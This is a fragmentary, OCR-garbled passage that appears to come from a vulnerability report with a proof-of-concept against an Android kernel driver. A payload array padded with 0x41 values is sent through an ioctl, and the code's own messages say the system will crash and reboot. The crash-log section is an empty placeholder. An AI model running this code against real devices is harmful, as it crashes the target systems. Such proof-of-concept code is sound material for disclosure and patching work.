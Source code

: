 ```

0x00000001,

0x002cffff,

0x9e00cdff,

0x00000004,

0x41414141,

0x41414141,

0x41414141,

0x41414141 };

```
 int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd &lt; 0) {
        printf("Failed to open %s, with errno %d\n", driver, errno);
        system("echo 1 &gt; /data/local/tmp/log");
        return -1;
    }

    printf("Try open %s with command 0x%x.\n", driver, command);
    printf("System will crash and reboot.\n");
    if(ioctl(fd, command, &amp;payload) &lt; 0) {
        printf("Allocation of structs failed, %d\n", errno);
        system("echo 2 &gt; /data/local/tmp/log");
        return -1;
    }
    close(fd);
    return 0; 
``` `}` 
```

### 崩溃日志

```
To be added here. 
```